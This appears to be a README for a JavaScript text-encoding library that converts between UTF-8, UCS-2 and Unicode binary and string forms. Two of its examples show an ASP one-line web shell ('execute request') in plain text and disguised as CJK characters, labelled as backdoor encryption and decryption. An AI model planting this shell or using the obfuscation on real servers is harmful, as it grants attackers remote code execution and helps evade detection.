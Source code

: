 # About
Convert 
Utf8 to Utf8 Binary (Raw utf8 binary in memory), 
Utf8 to Ansi Binary (Char Binary),
Utf8 to Unicode Binary, 
Utf8 to Unicode Str, (ASP Backdoor Decrypt)
Utf8 to Ucs2, 
Ucs2 to Utf8, 
Unicode Str to Utf8, (ASP Backdoor Encrypt)
Unicode Binary to Ansi Binary (Char Binary), 
Unicode Binary to Str

# Example
```javascript
Utf8StrToUtf8Binary('ex')
// [101, 120] ([0x65, 0x78])
Utf8StrToUtf8Binary('严')
// [228, 184, 165] ([0xe4, 0xb8, 0xa5])
```

```javascript
Utf8StrToCharBinary('ex')
// [101, 120] ([0x65, 0x78])
Utf8StrToCharBinary('严')
// [20005] ([0x4e25])
```

```javascript
Utf8StrToUnicodeBinary('ex')
// [101, 0, 120, 0] ([0x65, 0x00, 0x78, 0x00])
Utf8StrToUnicodeBinary('ex', BigEndian = true)
// [0, 101, 0, 120] ([0x00, 0x65, 0x00, 0x78])
Utf8StrToUnicodeBinary('严')
// [37, 78] ([0x25, 0x4e])
Utf8StrToUnicodeBinary('严', BigEndian = true)
// [78, 37] ([0x4e, 0x25])
```

```javascript
Utf8StrToUnicodeStr('硥')
// "ex"
Utf8StrToUnicodeStr('┼攠數畣整爠煥敵瑳∨≮┩>')
// "<% execute request("n")%> " (ASP Backdoor Decrypt)
```

```javascript
Utf8ToUcs2('ex严')
// "ex%u4E25"
Utf8ToUcs2('ex严', encodeAll = true)
// "%u0065%u0078%u4E25"
Utf8ToUcs2('ex严', encodeAll = true, splitChar = '\\')
// "\u0065\u0078\u4E25"
```

```javascript
Ucs2ToUtf8('ex%u4E25')
// "ex严"
Ucs2ToUtf8('%u0065%u0078%u4E25')
// "ex严"
Ucs2ToUtf8('\\u0065\\u0078\\u4E25')
// "ex严"
```

```javascript
UnicodeStrToUtf8Str('ex')
// "硥"
UnicodeStrToUtf8Str('<% execute request("n")%>')
// "┼攠數畣整爠煥敵瑳∨≮┩>" (ASP Backdoor Encrypt)
```

```javascript
UnicodeBinaryToCharBinary([101, 0, 120, 0]) // [0x65, 0x00, 0x78, 0x00]
// [101, 120] ([0x65, 0x78], "ex")
UnicodeBinaryToCharBinary([37, 78]) // [0x25, 0x4e]
// [20005] ([0x4e25], "严")
```

```javascript
UnicodeBinaryToStr([101, 0, 120, 0]) // [0x65, 0x00, 0x78, 0x00]
// "ex"
UnicodeBinaryToStr([37, 78]) // [0x25, 0x4e]
// "严"
```












